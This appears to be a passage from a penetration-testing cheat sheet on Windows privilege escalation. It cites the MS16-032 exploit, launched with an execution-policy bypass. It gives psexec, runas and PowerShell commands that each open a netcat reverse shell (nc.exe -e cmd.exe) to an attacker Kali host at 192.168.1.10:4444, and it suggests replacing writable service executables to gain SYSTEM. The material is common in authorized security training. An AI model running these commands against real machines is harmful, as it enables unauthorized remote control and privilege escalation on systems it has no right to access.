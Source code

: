       MS16-032 https://www.exploit-db.com/exploits/39719/

      `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\Public\Invoke-MS16-032.ps1; Invoke-MS16-032 }"`


-   Powershell Priv Escalation Tools
    https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

-   Windows Run As - Switching users in linux is trival with the `SU` command.  However, an equivalent command does not exist in Windows.  Here are 3 ways to run a command as a different user in Windows.

      -   Sysinternals psexec is a handy tool for running a command on a remote or local server as a specific user, given you have thier username and password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Psexec (on a 64 bit system).

               C:\>psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"

               PsExec v2.2 - Execute processes remotely
               Copyright (C) 2001-2016 Mark Russinovich
               Sysinternals - www.sysinternals.com

      -   Runas.exe is a handy windows tool that allows you to run a program as another user so long as you know thier password. The following example creates a reverse shell from a windows server to our Kali box using netcat for Windows and Runas.exe:

               C:\>C:\Windows\System32\runas.exe /env /noprofile /user:Test "c:\users\public\nc.exe -nc 192.168.1.10 4444 -e cmd.exe"
               Enter the password for Test:
               Attempting to start nc.exe as user "COMPUTERNAME\Test" ...

      -   PowerShell can also be used to launch a process as another user. The following simple powershell script will run a reverse shell as the specified username and password.

               $username = '<username here>'
               $password = '<password here>'
               $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
               $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
               Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

             Next run this script using powershell.exe:

             `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`


-   Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.
    icacls scsiaccess.exe

         scsiaccess.exe
         NT AUTHORITY\SYSTEM:(I)(F)
         BUILTIN\Administrators:(I)(F)
         BUILTIN\Users:(I)(RX)
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
         Everyone:(I)(F)
